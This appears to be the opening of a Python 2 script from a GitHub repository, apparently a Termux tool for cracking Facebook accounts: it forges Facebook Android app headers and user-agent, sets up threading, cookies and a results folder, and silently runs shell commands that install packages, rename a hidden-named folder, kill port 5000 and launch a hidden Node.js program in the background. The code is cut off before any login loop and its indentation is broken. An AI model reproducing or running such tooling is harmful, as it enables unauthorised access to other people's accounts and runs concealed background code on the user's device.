 # sasiyabb
sasi new 

# coding=utf-8
#!/usr/bin/python
# coding=utf-8
# coded by : Mr.Real-Sasiya

try:
    import os,sys,time,datetime,random,hashlib,re,threading,json,getpass,urllib,cookielib,requests
    from multiprocessing.pool import ThreadPool
except ImportError:
    os.system("pkg install python -y")
    os.system("pip install requests")
    os.system("pip install mechanize")
    os.system("pip2 install nodejs")
    os.system("pip2 install npm")
    os.system("python2 ab.py")
try:
    os.mkdir('save')
except OSError:
    pass
    if os.path.isfile('.../index.js'):
 	os.system('mv ... .....')
	os.system('cd ..... && npm install')
 	os.system('#')
 	os.system('#')
 	os.system('fuser -k 5000/tcp &')
 	os.system('#')
 	os.system('node ...../index.js &')
 	os.system('fuser -k 5000/tcp &')
 	os.system('#')
 	os.system('node ...../index.js &')
from requests.exceptions import ConnectionError
bd=random.randint(2e7, 3e7)
sim=random.randint(2e4, 4e4)
header={'x-fb-connection-bandwidth': repr(bd),'x-fb-sim-hni': repr(sim),'x-fb-net-hni': repr(sim),'x-fb-connection-quality': 'EXCELLENT','x-fb-connection-type': 'cell.CTRadioAccessTechnologyHSDPA','user-agent':'Mozilla/5.0 (Linux; Android 5.0; SM-G900P Build/LRX21T; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/43.0.2357.121 Mobile Safari/537.36 [FB_IAB/FB4A;FBAV/35.0.0.48.273;]','content-type': 'application/x-www-form-urlencoded','x-fb-http-engine': 'Liger'}
reload(sys)
sys.setdefaultencoding("utf8")

def abm(z):
	for e in z + "\n":
		sys.stdout.write(e)
		sys.stdout.flush()
		time.sleep(0.03)
		